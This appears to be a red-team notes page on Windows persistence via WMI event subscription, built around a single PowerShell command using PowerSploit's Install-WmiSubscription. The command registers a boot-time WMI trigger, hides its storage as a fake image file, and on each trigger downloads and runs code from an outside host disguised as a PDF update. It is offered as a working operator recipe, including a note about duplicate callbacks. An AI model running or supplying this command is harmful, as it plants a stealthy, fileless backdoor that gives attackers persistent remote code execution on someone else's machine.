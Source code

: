 # Windows Persistence

## WMI Subscription

### Install wmi persistence for on-boot

Great research can be found on Black Hats site[^1]. The script can be found at https://github.com/PowerShellMafia/PowerSploit/blob/master/Persistence/Persistence.psm1 or in the Empire agent.

!!! warning
    This method sometimes returns two callbacks on boot!

```powershell
Install-WmiSubscription -CustomEvent -Query "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 200 AND TargetInstance.SystemUpTime < 320" -Namespace "root\cimv2" -DiskStorageLocation "C:\Windows\tasks\cat.jpg" -Command "`"&([ScriptBlock]::Create((([Char[]](New-Object Net.WebClient).DownloadData('http://www.--SNIP--.com/corp/priv/cloud/adp_update.pdf'))-Join'')))`"" -Verbose
```

[^1]: https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf